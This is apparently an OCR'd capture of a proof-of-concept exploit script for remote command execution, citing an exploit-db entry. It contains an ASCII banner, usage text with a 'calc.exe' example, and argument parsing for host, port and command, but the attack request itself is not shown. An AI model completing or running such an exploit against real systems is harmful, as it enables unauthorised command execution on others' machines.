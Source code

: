 ```py=
██████╗░░█████╗░░█████╗░
██╔══██╗██╔══██╗██╔══██╗
██████╔╝██║░░██║██║░░╚═╝
██╔═══╝░██║░░██║██║░░██╗
██║░░░░░╚█████╔╝╚█████╔╝
╚═╝░░░░░░╚════╝░░╚════╝░


███╗░░░███╗░█████╗░██████╗░███████╗  ██████╗░██╗░░░██╗
████╗░████║██╔══██╗██╔══██╗██╔════╝  ██╔══██╗╚██╗░██╔╝
██╔████╔██║███████║██║░░██║█████╗░░  ██████╦╝░╚████╔╝░
██║╚██╔╝██║██╔══██║██║░░██║██╔══╝░░  ██╔══██╗░░╚██╔╝░░
██║░╚═╝░██║██║░░██║██████╔╝███████╗  ██████╦╝░░░██║░░░
╚═╝░░░░░╚═╝╚═╝░░╚═╝╚═════╝░╚══════╝  ╚═════╝░░░░╚═╝░░░

██████╗░██╗░░██╗██████╗░██╗██████╗░░█████╗░░░███╗░░
██╔══██╗██║░██╔╝██╔══██╗██║╚════██╗██╔══██╗░████║░░
██║░░██║█████═╝░██████╔╝██║░█████╔╝██║░░╚═╝██╔██║░░
██║░░██║██╔═██╗░██╔══██╗██║░╚═══██╗██║░░██╗╚═╝██║░░
██████╔╝██║░╚██╗██║░░██║██║██████╔╝╚█████╔╝███████╗
╚═════╝░╚═╝░░╚═╝╚═╝░░╚═╝╚═╝╚═════╝░░╚════╝░╚══════╝

Reference: https://www.exploit-db.com/exploits/46540

Remember to install requests : pip3 install requests

'''

time.sleep(1)

usage = "python3 <filename> <ip> <port> <command>"
example = "python3 <exp.py> <loaclhost> <9998> <calc.exe>"
```

exp.py
```py=
import requests
import sys
import Banner 

def print_Banner():
    return Banner.banner

def usage():
    return Banner.usage

def example():
    return Banner.example

def main():
    print(print_Banner())
    print()
    print(f"🌰 Usage: {usage()}")
    print()
    print(f"🛠️ Example: {example()}")
    print()

    if len(sys.argv) != 4:
        print(f"❌ Something error , look at the usage:  {usage()}")
        return # let program end up early

    host = sys.argv[1]
    port = sys.argv[2]
    command = sys.argv[3]
```